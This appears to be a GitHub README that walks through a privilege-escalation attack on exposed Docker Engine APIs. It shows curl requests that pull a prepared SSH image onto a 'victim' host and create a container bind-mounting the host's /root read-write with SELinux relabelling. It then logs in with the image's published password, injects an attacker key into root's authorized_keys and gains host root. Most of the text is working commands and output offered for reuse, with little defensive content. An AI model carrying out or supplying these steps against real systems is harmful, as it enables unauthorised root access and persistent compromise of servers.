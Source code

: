 ﻿
# Docker API Privilege Escalation
***

This document has the objective to explain a simple way to remotely make a privilege escalation in a Docker, using it's own Engine API service. 

During my analisys routine I manage to successfully make an attack, so I decided to share freely. 

I`ve made an image available containing a SSH service enabled in the  [Docker Hub](https://hub.docker.com/r/pype/privsshd/) to help in the attack (The image available it's huge, more than 200MB because of the Ubuntu base image. As soon as possible I will made available a smaller image).

PS: This attack explore a option available in the docker, without the need to utilize memory exploitation or similar way (As usually used to escape the container).
**PS2: This is only ONE of many ways to explore an server utilizing the docker API service.** If during my analysis I find others explore methods, I will post in this repository.

Any suggestions to improve the attack or to protect yourself, I'm available to listen to all of it and add to this document if appropriate.


## Engine API

*"The Engine API is an HTTP API served by Docker Engine. It is the API the Docker client uses to communicate with the Engine, so everything the Docker client can do can be done with the API."*

**By default this service don't use any authentication**, but this resource it's made available by the platform.

- [Docker Engine API](https://docs.docker.com/engine/api/v1.32/)
- [Authentication](https://docs.docker.com/engine/api/v1.32/#section/Authentication)

During the attack, we are going to utilize the parameters provided by the platform so this way we can explore the system and obtain privileged internal access.

## Exploitation
The main focus of the attack it's to be able to inject our public key inside the file *"authorized_keys"* from the root user in the server!


The exploration consist in six parts:

1. **Push the image in server**
2. **Configure a container with our image**
3. **Start the container**
4. **Connect to container SSH**
5. **Import public key in .ssh/authorized_keys in root directory**
6. **Finaly connect to SSH server with root access**

***

* **Push image in server**

The selected image for the attack need to have some kind the shell remote service available in the start, so this way we can connect to the container inside the server.

```bash
curl -XPOST "http://victim/images/create?fromImage=pype/privsshd"

< HTTP/1.1 200 OK
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 15:41:46 GMT
< Transfer-Encoding: chunked
< 
...
{"status":"Status: Image is up to date for docker.io/pype/privsshd:latest"}
```
In the example above I used the option to create an image from the official repository. There is [other methods](https://docs.docker.com/engine/api/v1.24/#32-images) to execute the same operation.

pype/privsshd -  The Image that I've made available to help in the documentation of the attack. 

* **Configure a container with our image**

For we to be able to inject our public key inside the file .ssh/authorized_key, we need access to the root directory in the Docker Server. For this we are going to utilize the option "Binds", this way we can select the volume of what is going to be shared between the server and our container. (Remember to configure the read and write option)

**SELINUX  *"Bypass"***

The Docker provides a mounting option capable of modify the SELINUX file or directory label shared with the container. With this option, it’s possible to mount privileged directory inside of our container (E.g.: /root/;/etc;/bin …).

We can send this option via API too, this way we can work around the SELINUX remotely .

 *"This affects the file or directory on the host machine itself and can have consequences outside of the scope of Docker."*

```json
"Binds":[  
      "/root/:/root/:rw,z"
      ]
``` 

Mais informações: [Configure-the-selinux-label](https://docs.docker.com/engine/admin/volumes/bind-mounts/#configure-the-selinux-label)


Supposing that our target server already has the port number 22 busy by it's own SSH service, we have to point another outgoing port for our connection with the container, we are going to configure the option "PortBindings" with "HostPort" in another port.
```json
{  
   "Image":"pype/privsshd",
   "Binds":[  
      "/root/:/root/:rw,z"
   ],
   "PortBindings":{  
      "22/tcp":[  
         {  
            "HostIp":"",
            "HostPort":"2233"
         }
      ]
   }
}
```
JSON it's the only format accepted by the platform, therefore configure the Content-Type of your requisition to this type of language.

```bash
curl -H "Content-Type: application/json" -d '{"Image":"pype/privsshd", "Binds": ["/root/:/root/:rw,z"],"PortBindings":{"22/tcp":[{"HostIp":"","HostPort":"2233"}]}}' -XPOST "http://victim/containers/create"

< HTTP/1.1 201 Created
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 16:03:34 GMT
< Content-Length: 90
< 
{"Id":"5a3c7f18d202f62...4789e781132495781f","Warnings":null}
```
If everything worked out, the requisition will return an ID and this will be the your container identifier 

* **Start the container**

Use the Identifier to start your container remotely.

```bash
curl -XPOST "http://victim/containers/5a3c7f18d202f62...4789e781132495781f/start" -v 

< HTTP/1.1 204 No Content
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 22:29:46 GMT

```
Verify if the service was started with success in the target server.

```bash
~ » nc victim 2233
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
```

* **Connect to container SSH**

```bash
~ » ssh root@victim -p2233
root@victim password: 
root@5a3c7f18d202:~#
```

If you utilized my image **privsshd**, the root password it's: *screencast*.


* **Import public key in .ssh/authorized_keys in root directory**

Now you are free to inject your public key and...

```bash
root@5a3c7f18d202:~# ls .ssh/
authorized_keys  id_rsa  id_rsa.pub  known_hosts
root@5a3c7f18d202:~# echo "ssh-rsa AAAAB3NzaC1yc2EAAAAD.." >> .ssh/authorized_keys
``` 
* **Finaly connect to SSH server with root access**

```bash
~ » ssh root@victim -i key.rsa
[root@docker-server ~]# id
uid=0(root) gid=0(root) groups=0(root) 
[root@docker-server ~]# docker --version
Docker version 1.12.6, build ae7d637/1.12.6
```

Now you have privileged access inside the remote server. :)

***
![](x.gif)
***
Referencias:
[http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html]()
[https://docs.docker.com/engine/api/v1.24]()
[https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)
[https://nmap.org/book/nse-tutorial.html]()


